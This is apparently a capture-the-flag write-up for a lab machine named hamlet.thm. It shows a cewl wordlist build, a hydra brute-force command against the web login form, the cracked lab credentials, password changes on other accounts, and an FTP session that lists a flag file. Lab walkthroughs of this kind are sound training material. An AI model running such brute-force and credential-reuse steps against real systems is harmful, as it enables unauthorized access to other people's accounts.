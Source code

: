 <h3>cewl</h3>

```bash
:~# cewl --lowercase -m 12 -d 1 http://hamlet.thm | grep -E '.{,14}' > wordlist.txt
...
:~# hydra -l ghost -P ./wordlist.txt hamlet.thm -s 8080 http-post-form "/login.html?-1.-loginForm:urlfragment=&username=^USER^&password=^PASS^:F=failed"
...
```

<br>


<h3>hamlet.thm:8080/login.html</h3>

![image](https://github.com/user-attachments/assets/adfd8940-0054-4b0d-abd7-f28d86b42ef5)

<p>welcome.html</p>

![image](https://github.com/user-attachments/assets/da7fb7d1-41a5-430a-8975-9623c8a1bf08)

<p>./login.html?-1.-loginForm</p>

./login.html?-1.-loginForm">

![image](https://github.com/user-attachments/assets/e823eb6d-6aeb-48fb-9dba-be4f7d71b3a7)


<h3>ghost : vnsanctified</h3>

![image](https://github.com/user-attachments/assets/f14ff84e-8eb0-4470-8130-ea23c3ba76c4)

<p>admin, ghost, ophelia</p>

![image](https://github.com/user-attachments/assets/639a7fa7-7167-48e9-a87f-36b4fd1a988d)

![image](https://github.com/user-attachments/assets/1c585174-93e5-4b6b-8db3-19b3bfa76b72)


![image](https://github.com/user-attachments/assets/644c3ae1-54bb-4a3a-b9db-670573782174)

<br>

<p>changed admin´s and ophelia´s password</p>


![image](https://github.com/user-attachments/assets/9ac7fded-9a88-482f-8447-b3ec06a04163)

<br>

<h3>ftp > ophelia > KEQehFDWwuQbMbKW</h3>


```bash
:~# ftp TargetIP
...
Name (TargetIP:root): ophelia
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode on.
ftp> ls
227 Entering Passive Mode (10,10,2,57,198,77).
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           31 Sep 16  2021 flag
226 Directory send OK.
ftp> ls -la
227 Entering Passive Mode (10,10,2,57,198,88).
```